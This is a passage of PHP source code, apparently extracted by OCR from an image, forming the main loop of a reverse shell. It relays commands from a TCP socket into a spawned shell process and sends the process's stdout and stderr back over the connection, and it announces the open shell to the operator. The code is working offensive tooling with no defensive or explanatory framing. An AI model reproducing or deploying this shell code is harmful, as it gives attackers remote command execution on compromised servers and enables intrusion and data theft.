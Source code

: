 ```
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
        if ($debug) printit("STDERR READ");
        $input = fread($pipes[2], $chunk_size);
        if ($debug) printit("STDERR: $input");
        fwrite($sock, $input);
    }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

```